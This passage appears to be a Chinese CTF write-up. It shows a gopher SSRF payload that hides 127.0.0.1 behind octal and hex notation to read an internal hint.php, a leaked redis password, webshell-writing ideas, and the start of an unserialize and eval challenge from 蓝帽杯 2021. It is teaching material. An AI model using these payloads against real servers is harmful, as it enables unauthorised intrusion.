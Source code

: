   ```
- gopher+进制转换

```
?url=gopher://0177.0.0x0001:80/_%2547%2545%2554%2520%252f%2568%2569%256e%2574%252e%2570%2568%2570%2520%2548%2554%2554%2550%252f%2531%252e%2531%250d%250a%2548%256f%2573%2574%253a%2520%2531%2532%2537%252e%2530%252e%2530%252e%2531%250d%250a%2555%2573%2565%2572%252d%2541%2567%2565%256e%2574%253a%2520%2563%2575%2572%256c%252f%2537%252e%2536%2535%252e%2533%250d%250a%2541%2563%2563%2565%2570%2574%253a%2520%252a%252f%252a%250d%250a%250d%250a
```

- `http:///127.0.0.1/hint.php`

绕过查看`hint.php`文件内容后

```php
<?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
```

可以得知

1.`redis`密码为root

2.`file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);`可以绕过写`shell`，不过试了下没有写权限。同理`redis`写`shell`也行不通了

## [蓝帽杯 2021]One Pointer PHP

`php bypass_disablefunctions` `SUID提权`

题目页面有附件，查看附件文件，有两个文件，`user.php`和`add_api.php`

```php
//user.php

<?php
class User{
	public $count;
}

// add_api.php
include "user.php";
if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
```



可以看到，想要`eval`代码，需要绕过`if($count[]=1)`，便需要`$count[]=1`返回0
